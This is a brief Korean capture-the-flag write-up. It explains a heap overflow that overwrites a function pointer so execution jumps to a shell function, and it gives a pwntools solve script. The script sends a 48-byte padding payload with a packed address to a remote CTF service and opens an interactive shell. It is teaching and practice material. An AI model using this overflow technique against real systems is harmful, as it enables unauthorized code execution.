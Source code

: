 함수포인터가 호출될 때 call rax를 합니다. 원래라면 call rax할 때 rax에는 print주소가 담겨 있어야하지만, heap overflow로 print 주소 대신 shell를 넣어서 rax에는 shell주소가 담겨있고, call rax를 통해 shell함수로 jump해 쉘을 획득할 수 있습니다.

![스크린샷 2023-01-30 오전 1.12.53.png](img%20e0061c49e68b4dbc8047ca5b2c52fabc/%25E1%2584%2589%25E1%2585%25B3%25E1%2584%258F%25E1%2585%25B3%25E1%2584%2585%25E1%2585%25B5%25E1%2586%25AB%25E1%2584%2589%25E1%2585%25A3%25E1%2586%25BA_2023-01-30_%25E1%2584%258B%25E1%2585%25A9%25E1%2584%258C%25E1%2585%25A5%25E1%2586%25AB_1.12.53.png)

풀이 코드

```python
from pwn import * # pip install pwntools

#p = process('./heapoverflow')
p = remote('ssuctf.kr',10001)

payload = b'A'*48 + p64(0x00000000004012d0)
p.sendafter(b'Name >> ', payload)
p.sendlineafter(b'Age >> ', b'777')

p.interactive()
```

실행 결과
